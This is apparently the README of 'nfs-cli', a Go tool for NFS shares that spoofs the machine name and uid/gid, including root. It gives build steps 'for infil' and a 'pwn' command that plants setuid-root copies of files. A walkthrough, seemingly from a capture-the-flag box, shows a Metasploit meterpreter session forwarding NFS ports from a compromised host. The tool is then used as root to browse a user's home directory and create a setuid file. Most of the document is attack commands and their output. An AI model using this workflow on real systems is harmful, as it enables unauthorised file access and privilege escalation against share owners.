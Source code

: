 # nfs-cli

Simple cli for nfs. No NFS acls are bypassed or anything. This is not an exploit. You can set machine identifier, uid and gid though.

## Usage
```sh
nfs-cli -machine iamallowed -uid 0 -gid 0 -target /path/to/exported/path -rhost remoteserver
```

Build static (for infil):
```sh
CGO_ENABLED=0 go build -a -ldflags '-extldflags "-static"' .
```

### Commands
Note: Don't include slashes in paths, this tool is pretty dumb.

- `ls` - list files i cwd
- `cd newdir` - change cwd
- `mkdir newdir` - create a directory (mode `06777`)
- `cat file` - view file
- `get file` - download file
- `put file` - upload file (mode `06777`)
- `rm file` - delete file
- `rmdir dir` - delete directory (and recursive)
- `pwn file` - copies `file` to `file.pwn` and sets mode `06777`

The suid-bit doesn't work unless you are root, not sure if this is nfs or the library.

## Example
Metasploit:
```
sudo msfconsole -q   # 111 is privileged, see below for workaround
...
meterpreter > shell
Process XYZ created.
Channel ZYX created.
$ rpcinfo -a
   program vers proto   port  service
   ...
    100005    2   tcp  20048  mountd      <--this is the portnumber you want
   ...
$ exit
meterpreter > portfwd add -l 111 -L 0.0.0.0 -p 111 -r 127.0.0.1
meterpreter > portfwd add -l 2049 -L 0.0.0.0 -p 2049 -r 127.0.0.1
meterpreter > portfwd add -l 20048 -L 0.0.0.0 -p 20048 -r 127.0.0.1
```

Client:
```
./nfs-cli -uid 0 -gid 0 -machine iamtrusted -rhost localhost -target /home/james
[/home/james] .> ls
  [.                                       ]  1000: 1000 (00700) 129
  [..                                      ]     0:    0 (00000) 0
  [.bash_logout                            ]  1000: 1000 (00644) 18
  [.bash_profile                           ]  1000: 1000 (00644) 141
  [.bashrc                                 ]  1000: 1000 (00644) 312
  [.ssh                                    ]  1000: 1000 (00700) 61
  [.bash_history                           ]     0:    0 (00777) 9
  [user.flag                               ]  1000: 1000 (00644) 38
  [README.md                               ]  1000: 1000 (00777) 2785
[/home/james] .> pwn README.md
[/home/james] .> ls
  [.                                       ]  1000: 1000 (00700) 150
  [..                                      ]     0:    0 (00000) 0
  [.bash_logout                            ]  1000: 1000 (00644) 18
  [.bash_profile                           ]  1000: 1000 (00644) 141
  [.bashrc                                 ]  1000: 1000 (00644) 312
  [.ssh                                    ]  1000: 1000 (00700) 61
  [.bash_history                           ]     0:    0 (00777) 9
  [user.flag                               ]  1000: 1000 (00644) 38
  [README.md                               ]  1000: 1000 (00777) 2785
  [README.md.pwn                           ]     0:    0 (06777) 2785
[/home/james] .> 
```

## Alternative usage (non-priv)
```
git clone https://github.com/go-nfs/nfsv3.git
cd nfsv3
# copy main.go here
# edit nfs/rpc/portmap.go and change PmapPort to 9111
go run . -h
```

Now it's possible to `portfwd add -l 9111 -L 0.0.0.0 -p 111 -r 127.0.0.1` instead. No need to run `msfconsole` as root.
